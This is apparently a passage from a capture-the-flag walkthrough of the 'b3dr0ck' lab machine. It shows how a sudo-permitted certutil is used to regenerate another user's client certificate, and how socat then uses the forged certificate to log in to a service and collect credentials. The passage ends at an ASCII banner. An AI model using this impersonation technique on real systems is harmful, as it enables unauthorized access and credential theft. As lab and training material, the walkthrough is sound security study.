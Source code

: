 User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil

when you just run this
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

so you can list the certificates and just overwrite the fred ones:
barney@b3dr0ck:~$ certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 29 15:20 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 29 15:20 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 29 15:20 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 29 15:20 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 29 15:20 fred.certificate.pem
-rw-r----- 1 root root 1674 Aug 29 15:20 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 29 15:20 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 29 15:20 fred.serviceKey.pem

barney@b3dr0ck:/usr/share/abc/dist$ sudo /usr/bin/certutil "Fred" "Fred Flintstone"
Generating credentials for user: Fred (Fred Flintstone)
Generated: clientKey for Fred: /usr/share/abc/certs/Fred.clientKey.pem
Generated: certificate for Fred: /usr/share/abc/certs/Fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED]
-----END CERTIFICATE-----

Now that we have overwritten the original certificates of fred we can login to the YabbaDabbaDo service and get the creds:
terra2 ~/b3dr0ck ]# socat stdio ssl:ip:54321,cert=/root/b3dr0ck/fred.client,key=/root/b3dr0ck/fred.rsa,verify=0


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 